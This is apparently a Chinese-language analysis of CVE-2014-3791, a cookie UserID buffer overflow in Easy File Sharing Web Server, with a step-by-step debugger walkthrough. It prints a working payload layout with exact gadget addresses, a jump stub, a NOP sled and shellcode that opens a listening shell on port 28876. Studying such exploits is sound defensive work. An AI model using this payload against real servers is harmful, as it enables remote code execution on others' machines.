










## CVE-2014-3791漏洞分析

### 漏洞介绍

在请求Easy File Sharing Web Server的vfolder.ghp页面时，携带Cookie中的UserID字段存在缓冲区溢出漏洞。

### 漏洞分析

在exp代码33352.py中查看HTTP请求构造部分的代码：



UserID字段 (也就是exp中的payload) 构造如下：



payload的原理在于漏洞程序中存在以下可以利用的代码：

```
CALL DWORD PTR DS:[EDX+28]
```

又由于存在缓冲区溢出漏洞，因此我们可以控制EDX的值，将其指向任意地址从而劫持程序控制流。我们希望`EDX+28`指向`CALL ESI`命令的地址，由于ESI指向我们输入的shellcode，从而达到最终跳转执行shellcode的目的。其中guess代表的就是我们控制的EDX的值，由于在Windows XP Professional SP2/SP3中我们寻找的指令可能在`0x01??6969`范围内 (其中`??`表示不确定)，因此需要进行爆破。

为了首先定位漏洞触发地点，将payload改为如下内容，此时EDX的值应当为`0x42424242`。

```
payload =  "A"*80 + 'B'*4
```

运行exp并使用Immunity Debugger进行调试，可以看到程序停止在了地址0x0045C8C2，并且提示错误"Access violation when reading [4242426A]"。



观察此时的寄存器，可以验证EDX的值确实为`0x42424242`。



构造如下payload进行试验：

```
payload =  "A"*64                            # padding
payload += "\x81\xee\x70\xff\xff\xff"        # SUB ESI,-90
payload += "\xff\xe6"                        # JMP ESI
payload += "A"*8                             # padding
payload += struct.pack("<I", 0x019F6940)     # overwrite EDX with pointer to CALL ESI
payload += "C"*108                           # padding
payload += struct.pack("<I", 0x10023701)     # pointer to CALL ESI
payload += "\x90"*20                         # NOP sled
payload += shellcode                         # calc.exe
payload += "C"*75                            # padding
```

使用Immunity Debugger进行调试，运行到0x0045C8C2处的断点，可以看到此时ESI所指向的地址为0x17768E8。



查看相应地址的内容，发现正好指向我们所输入的payload。



现在我们能够理解为什么需要构造`EDX+28`指向`CALL ESI`了，因为这样就不需要知道shellcode的位置，由于ESI已经指向shellcode，所以通过`CALL ESI`指令可以直接通过跳转到shellcode。

已知在LoadImage.dll中存在`CALL ESI`指令，将其地址0x10023701放在payload中一起发送。因此我们只需找到payload中存放0x10023701这段地址的位置，再让EDX+28指向它就可以了。



由于在本程序中该地址为0x1776968，因此EDX = 0x1776968 - 0x28 = 0x1776940。修改payload并重新运行exp，可以看到此时成功跳转到0x10023701处的`CALL ESI`指令。



单步执行，将跳转到我们的shellcode部分。



让程序继续运行，成功执行shellcode后会在28876端口创建一个监听shell。

